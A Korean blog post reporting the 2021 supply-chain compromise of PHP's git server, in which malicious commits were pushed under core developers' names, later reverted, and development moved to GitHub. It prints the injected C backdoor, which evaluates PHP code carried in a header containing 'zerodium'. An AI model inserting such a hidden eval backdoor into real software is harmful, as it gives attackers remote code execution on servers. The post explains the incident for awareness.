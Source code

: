 ```yaml
---
layout: post
id: 20
title: "PHP의 깃서버가 해킹되었습니다."
subtitle: "PHP가 공급망 공격에 피해를 입었습니다."
description: "PHP의 깃 서버인 git.php.net이 공급망 공격을 당해 앞으론 github이 메인으로 사용되어집니다."
type: "PHP"
created_at: "2021-03-29"
updated_at: "2021-03-29"
blog: true
text: true
author: "silnex"
post-header: true
header-img: "img/hacked-php.png"
order: 20
tags: ["php", "hacking", "supply-chain-attack"]
comments: true
---
```


> PHP 인터널 공지: [https://news-web.php.net/php.internals/113838](https://news-web.php.net/php.internals/113838)

# TR; TL;

PHP의 git 서버가 공급망 해킹에 당해 앞으로 php-src는 Github를 메인으로 사용합니다.  
하지만 여러분에 서버에 설치된 PHP가 취약한 것은 아닙니다.  
다만, `php-src`를 직접 컴파일하여 사용하시는 분은 악성 커밋([1](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d), [2](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a))이 소스코드에 포함되어 있는지 확인이 필요합니다.

# 공급망 공격? (Supply chain attack)

공급망 공격이란 기존의 어플리케이션이나, 서비스를 공격했던 방식이 아닌 어플리케이션 혹은 서비스에서 사용중인 vendor에 악성 코드를 심는 방식으로,
최근 오픈소스로 관리되어지는 vendor혹은 패키지의 수가 많아지고, 누구나 수정할 수 있는 점을 이용한 공격 방식입니다.

# PHP-src에 삽입된 악성 코드

```c
zval *enc;

if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
	(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
	convert_to_string(enc);
	if (strstr(Z_STRVAL_P(enc), "zerodium")) {
		zend_try {
			zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
		} zend_end_try();
	}
}
```
이 코드는 HTTP 헤더에 zerodium이 있을 때 User agent에 삽입된 PHP코드를 실행 시키는 악성 코드입니다.

근데 이 악성커밋의 작성자가 PHP 주요 개발자인 `Nikita Popov`계정과 `Rasmus Lerdorf`계정으로 푸시되어 있어 [PHP internals](https://news-web.php.net/php.internals)에서 많은 이야기가 오고 갔습니다.

Nikita Popov는 최종적으로 자체 git 서버가 아닌 기존에 미러용으로 사용하던 Github의 Repo에서 관리하기로 했으며, 개발자들에게 `2FA`를 사용하라고 권고 했습니다.

# 복구 및 피해 규모

악성 커밋은 모두 Revert 되었으며, 현재 모든 Repo에 대해서 악성 커밋을 확인하고 있다고 합니다.

PHP 보안팀과 Nikita Popov가 확인한 결과 악성 커밋이 완료된 후 Fork나 Clone된 경우가 있긴 하지만, 실제 릴리즈에는 포함되지 않는단고 전했습니다.  
또한 Nikita Popov는 해당 브랜치는 PHP 8.1 개발용 브랜치로 연말에 출시될 예정이였다고 합니다.

이후 기존의 git 서버는 폐기되고 Github로 이동된다고 합니다.

# 마치면서

공급망 공격에 대한 경각심을 불러 일으킬만한 아주 좋은 예시가 이번에 생긴것같습니다. (PHP가 아니였음 했지만.. ㅜ)

더욱이 기존 프로젝트들이 외부 패키지나 라이브러리를 많이 의존하고 있었는데, 
이후 자체 제작을 지향하거나, 패키지 도입에 신중히 고민할 필요성이 예전보다 더욱더 생긴 것 같습니다.
